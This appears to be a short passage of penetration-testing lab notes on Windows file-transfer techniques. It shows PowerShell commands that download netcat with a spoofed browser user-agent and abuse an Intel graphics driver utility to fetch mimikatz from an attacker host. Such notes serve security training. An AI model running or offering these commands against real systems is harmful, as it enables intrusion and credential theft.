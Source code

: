 	- Changing user-agent 

```powershell
PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "C:\Users\Public\nc.exe"
```


#### <mark style="background: #FF5582A6;color:white">Transferring File with GfxDownloadWrapper.exe</mark>
- the intel graphic dirver has a download functionality .

```powershell
PS C:\htb> GfxDownloadWrapper.exe "http://10.10.10.132/mimikatz.exe" "C:\Temp\nc.exe"
```
